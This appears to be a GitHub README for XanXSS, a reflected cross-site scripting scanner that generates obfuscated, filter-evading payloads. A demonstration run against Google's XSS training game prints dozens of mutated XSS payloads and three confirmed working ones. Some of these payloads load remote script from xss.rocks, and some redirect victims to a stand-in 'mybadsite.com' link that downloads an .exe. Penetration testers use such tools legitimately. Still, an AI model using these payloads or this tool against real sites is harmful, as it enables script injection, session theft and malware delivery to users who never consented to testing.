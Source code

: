# XanXSS

XanXSS is a reflected XSS searching tool (DOM coming soon) that creates payloads based from templates. Unlike other XSS scanners that just run through a list of payloads. XanXSS tries to make the payload unidentifiable, for example: 

```bash
<xAnXSS</TitLE></STYLE><SVG/ONload='alERt(1);'/></XaNxSs</titLe></StYlE><SvG/ONlOAD='alerT(1);'/>
<ifrAmE&#13;Src=&#160;[2].Find(CoNfirm);=&#160;"JAVaScRIpT:proMpT(1))"javAscrIpt:/*--></scRIPt>
/>cLIcK&#13;Me!</b</TextaRea></TiTLE><BUTtON ONcLIck='aleRT(1);'/>XaNxss</TEXTaRea>
<iMG&#13;sRc=%0acONfIRM();=+'jAVASCRiPT:alerT("XSS");'</STYlE><Svg/onLoad='alErT((1));'/>
```

With XanXSS every payload is different. XanXSS works by running through the payloads until a specified number is found or a timer hits the max time, this prevents it from looping for to long.

# Proof of Concept

For this proof of concept we will use https://xss-game.appspot.com/level1/frame

```bash
admin@TBG-a0216:~/bin/python/xanxss$ python xanxss.py -u "http://xss-game.appspot.com/level1/frame?query=" -a 12 -t 12 -f 25 -v 

    ____  ___             ____  ___  _________ _________
    \   \/  /____    ____ \   \/  / /   _____//   _____/
     \     /\__  \  /    \ \     /  \_____  \ \_____  \ 
     /     \ / __ \|   |  \/     \  /        \/        \
    /___/\  (____  /___|  /___/\  \/_______  /_______  /
          \_/    \/     \/      \_/        \/        \/ 
Twitter->   @stay__salty
Github -->  ekultek         
Version---> v(0.1)


[info][16:37:34] using default payloads
[info][16:37:34] generating payloads
[info][16:37:34] running payloads through tampering procedures
[info][16:37:34] payloads tampered successfully
[info][16:37:34] running payloads
[debug][16:37:34] running payload '<xanxsSjAvasCRipT:/*--></SCripT></xanXsS</Style><svG/Onload='ALERt((1);'/>'
[debug][16:37:34] running payload '<SCRipt&#13;Src=+(pRomPt))``;=%09'HtTP://xsS.ROCKs/xss.jS'jaVAsCRIpt:/*--></ScrIPt></Script</tiTLe></stYLe><Svg/OnLOaD='aLeRT(1);'/>'
[debug][16:37:34] running payload '<xanxssjAvASCRIpT:/*--></ScRiPt></XANxsS</tiTle></STyle><SvG/OnLOAD\u006c='aLErt(1);'/>'
[debug][16:37:34] running payload '<iMG/+/sRc=%0dA=%0DPrOMpt,a(();=%0a'JaVaSCripT:aLeRt("XSS"));'javasCRiPT:/*--></sCRipt>'
[debug][16:37:34] running payload '<SCRIPT/*/srC=&#34;&#62;A=%0aprompT,A(();=%09'htTp://xSs.rockS/XSs.Js'</TeXTARea></TiTLE><buTTOn oncLiCK='ALeRT(1);'/>XAnXsS</tEXTARea></scrIPTjaVaSCRipT:/*--></sCRIPt>'
[debug][16:37:35] running payload '<IMg&#160;SRC=%09CONFIRM(());=%0a'JavAscrIpt:aLERt("XSS");'JavasCrIpT:/*--></SCripT>'
[debug][16:37:35] running payload '<XAnXSS</STYlE><SVg/OnLOAd='aLeRT(1));'/></xAnXsSjaVasCRIpt:/*--></scrIpt>'
[debug][16:37:35] running payload '<sCRIPt`Src=+cOnFiRm());=+'htTP://xSs.rOCKs/xsS.js'</TextaREA></tiTle><ButTon ONCliCK='AlErt(1);'/>xanxSS</TeXTarEa></SCriPtJAvaScrIPt:/*--></SCrIpt>'
[debug][16:37:35] running payload '<scRIpT</title></stYle><sVG/onlOAD='AlERT(1));'/>aLert((1));</scRipT</titLE></STyLe><sVG/oNlOad='aLeRt((1));'/>'
[debug][16:37:35] running payload '<SC\u009lripT/*/SrC=%0aConFirm();=&#160;'hTTP://xsS.ROcks/xSs.js'</TITle></StYlE><svg/ONLOad='ALerT(1);'/></ScriPT</StyLe><svG/OnLOAd='ALert((1);'/>'
[debug][16:37:35] running payload '<B//ONMOuSEOver=&#34;&#62;ConFIrm(();=&#160;wIndow.LoCATIoN=&#160\u005g;(pRoMPT))``;=%0A'htTpS://MyBaDSitE.cOM/dOwnLoAd.phP?iTem=+(pRomPt)``;=%0apuMPEDuPkICKs.exE'jaVAScrIpt:/*--></sCrIPt>ClIcK/*/mE!</b</tiTLe></sTyLE><sVG/OnLoAd='aLert(1));'/>'
[debug][16:37:35] running payload '<IfRA\u007pme%00SrC=%0AcOnFIRm(());=%0a"jaVAScriPT:pRoMPT(1)"jAVaScRIpt:/*--></SCriPt>'
[debug][16:37:36] running payload '<IframE//SrC=&#34;&#62;CONfIRM());=%0d"jAvAscriPT:pROMpT(1)"</TeXtarEa></TiTLe><BUttoN oNcliCK='aLERt((1));'/>XanXss</texTAReA>'
[debug][16:37:36] running payload '<iMG/+/SRc=%09[3].FInd(COnFIRm));=&#34;&#62;'javAscriPt:A\u004pLerT("XSS");'JavaSCriPt:/*--></sCripT>'
[debug][16:37:36] running payload '<imG&#160;SRc=%0d[2].FinD(cOnFiRm));=&#160;'JaVaScRipt:ALERt("XSS"));'</styLe><SVg/oNLoad='ALErT(1));'/>'
[debug][16:37:36] running payload '<script</tITLE></style><SVG/onLOAD='alerT(1);'/>AleRt(1);</ScRIpTjAvASCrIPT:/*--></scRIPt>'
[debug][16:37:36] running payload '<XaNxSs</tITle></sTYlE><SVg/ONload='aLERT((1);'/></xANxsS</stYLE><Svg/OnlOAD='AleRt(1);'/>'
[debug][16:37:36] running payload '<b//ONmOUSEoVEr=%0D[8].fInd(coNfIrM);=%09WinDoW.location=%0A(COnfiRm)(();=&#160;'htTPS://MYBadsite.cOM/DoWNlOaD.php?ITEm=+COnFIrM();=+puMPEDupKickS.ExE'</styLe><sVG/OnLOAd='alERt((1);'/>CLick%00Me!</b</sTYlE><SVG/onloAD='AlERt(1);'/>'
[debug][16:37:37] running payload '<scriPT</styLE><SvG/ONloaD='aLERT(1);'/>ALeRt(1);</SCrIPt</tiTLe></STYlE><sVG/OnloAd='aLeRT(1\u009x);'/>'
[debug][16:37:37] running payload '<iFRamE%00srC=&#34;&#62;[7].FInD(cOnFiRm);=%0A"javAsCRipT:prompt(1))"</tITlE\u009e></sTyle><svg/oNLOad='alert((1);'/>'
[debug][16:37:37] running payload '<b/*/OnmOusEOver=&#160;A=%0apROMpt,A();=+wINdOW.LOCAtIon=&#34;&#62;co\U006EfiR\u006\u003id();=%09'HTtPS://MYBAdsiTE.com/doWNload.php?itEm=+((CoNfIrm)();=&#34;&#62;puMpedUPKickS.eXe'</teXtaREa></tiTLe><BUTTON oNclIck='aLeRT((1);'/>XanXsS</texTAREA>cLICk/*/Me!</B</StylE><SVG/ONloAd='aLERt((1));'/>'
[debug][16:37:37] running payload '<XANxSSJaVaScRIpt:/*--></SCripT></XAnXSs</TExtAREa></tITle\u008w><b\u009fuTTON oNclIck='Ale\u003rRT((1);'/>xANXss</TEXTArEA>'
[debug][16:37:37] running payload '<SCript/*/sRC=+A=&#160;prOmpt,A();=&#160;'HtTp://XsS.rocKS/xsS.JS'</stylE><sVG/onLoad='AlErT((1);'/></SCriptjAvaScriPt:/*--></ScrIpt>'
[debug][16:37:37] running payload '<ImG&#13;SRc=&#34;&#62;Co\U006efIr\u006D();=%0a\u007u'javAsCript:AlerT(("XSS");'</titlE></StYLe><svg/onloAD='alERt(1);'/>'
[debug][16:37:38] running payload '<B/*/ONmouSeOvEr=%0Aa=&#160;prOmpT,A();=%09WIndOw.LOCAtION=%0Aa=%09prompt,a();=%0A'hTTps://MYBadsITe.COM/DOWNLOAD.PHp?ITeM=&#160;cO\u006Efir\u006D());=%0dPumPeduPkicks.EXE'</tITlE></StyLE><svg/OnlOAD='aLerT((1));'/>clIcK&#13;mE!</bJavASCript:/*--></sCrIPT>'
[warning][16:37:48] times up dumping found
[info][16:37:48] working payloads:
--------------------------------------------------
  ~~> <xanxssjAvASCRIpT:/*--></ScRiPt></XANxsS</tiTle></STyle><SvG/OnLOAD\u006c='aLErt(1);'/>
  ~~> <SCRipt&#13;Src=+(pRomPt))``;=%09'HtTP://xsS.ROCKs/xss.jS'jaVAsCRIpt:/*--></ScrIPt></Script</tiTLe></stYLe><Svg/OnLOaD='aLeRT(1);'/>
  ~~> <xanxsSjAvasCRipT:/*--></SCripT></xanXsS</Style><svG/Onload='ALERt((1);'/>
--------------------------------------------------
[info][16:37:48] found a total of 3 working payloads
admin@TBG-a0216:~/bin/python/xanxss$ 
```

Now lets check those scripts in the HTML of the website:

Payload:```<xanxssjAvASCRIpT:/*--></ScRiPt></XANxsS</tiTle></STyle><SvG/OnLOAD\u006c='aLErt(1);'/>```
![xanxsspoc1](https://user-images.githubusercontent.com/14183473/48165682-f1dede00-e2ab-11e8-8c33-4cd8d909b760.png)

Payload: ```<SCRipt&#13;Src=+(pRomPt))``;=%09'HtTP://xsS.ROCKs/xss.jS'jaVAsCRIpt:/*--></ScrIPt></Script</tiTLe></stYLe><Svg/OnLOaD='aLeRT(1);'/>```
![xanxsspoc2](https://user-images.githubusercontent.com/14183473/48165747-25216d00-e2ac-11e8-8d2f-8f6eed88f7b8.png)

Payload: ```<xanxsSjAvasCRipT:/*--></SCripT></xanXsS</Style><svG/Onload='ALERt((1);'/>```
![xanxsspoc3](https://user-images.githubusercontent.com/14183473/48165767-38343d00-e2ac-11e8-8785-aa736183ab9d.png)


# Options

XanXSS comes complete with the ability to use a proxy, is compatible with proxychains, and allows you to add custom headers. I have provided a full list of options for your convience:

```bash
usage: xanxss.py [-h] [-u http://test.com/test.php?id=] [-a VERIFY]
                 [-f AMOUNT] [-t TIME]
                 [-p SCRIPT,SCRIPT,SCRIPT [SCRIPT,SCRIPT,SCRIPT ...]]
                 [-F FILE-PATH] [-v] [--proxy TYPE://IP:PORT]
                 [-H HEADER=VALUE,HEADER:VALUE]

optional arguments:
  -h, --help            show this help message and exit
  -u http://test.com/test.php?id=, --url http://test.com/test.php?id=
                        pass a URL to test for XSS vulnerabilities
  -a VERIFY, --amount VERIFY
                        how many verifications steps to be taken
  -f AMOUNT, --find AMOUNT
                        find this amount of working payloads
  -t TIME, --time TIME  amount of time in seconds to spend on testing
  -p SCRIPT,SCRIPT,SCRIPT [SCRIPT,SCRIPT,SCRIPT ...], --payloads SCRIPT,SCRIPT,SCRIPT [SCRIPT,SCRIPT,SCRIPT ...]
                        pass a comma separated list of your own payloads
  -F FILE-PATH, --file FILE-PATH
                        pass a file containing payloads
  -v, --verbose         run in verbose mode
  --proxy TYPE://IP:PORT
                        pass a proxy in the format type://ip:port
  -H HEADER=VALUE,HEADER:VALUE, --headers HEADER=VALUE,HEADER:VALUE
                        Add your own custom headers to the request
```

# Bugs

IF you happen to find a bug or an issue please [create am issue](https://github.com/Ekultek/XanXSS/issues/new)